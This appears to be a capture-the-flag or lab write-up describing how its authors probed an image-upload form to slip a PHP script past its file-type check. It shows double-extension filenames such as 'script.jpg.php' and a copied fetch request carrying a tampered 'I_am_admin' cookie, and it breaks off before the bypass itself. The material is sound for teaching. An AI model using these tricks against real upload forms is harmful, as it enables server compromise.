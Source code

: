 # File upload breach send script as image with fake content/type

## How we found the breach

Source: https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-content-type-and-magic-number

On the page `http://IP/?page=upload`, we can find a image upload form. After trying uploading different type of files, we assume that the server only accepts `jpg` format files. We also know that the form uses `multipart/form-data`.

### Bypassing the filename parser

We tried to trick the server verification by passing junk data in the filename such as:

- script.jpg.php
- file.png.jpg.php
- ...

The server continues rejecting our upload attempts.

### Mocking the file content-type

After submitting the file upload form without selecting any file we can find the request using the devtools, then we can copy it as a call to `fetch`:

```js
fetch("http://IP/?page=upload", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "max-age=0",
    "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryXayOWrhdk6J4aXb0",
    "upgrade-insecure-requests": "1",
    "cookie": "I_am_admin=68934a3e9455fa72420237eb05902327",
    "Referer": "http://IP/?page=upload",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n------WebKitFormBoundaryXayOWrhdk6J4aXb0--\r\n",
  "method": "POST"
});
```

The sent body expanded is as follows:

```txt
------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="uploaded"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryXayOWrhdk6J4aXb0
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryXayOWrhdk6J4aXb0--
```
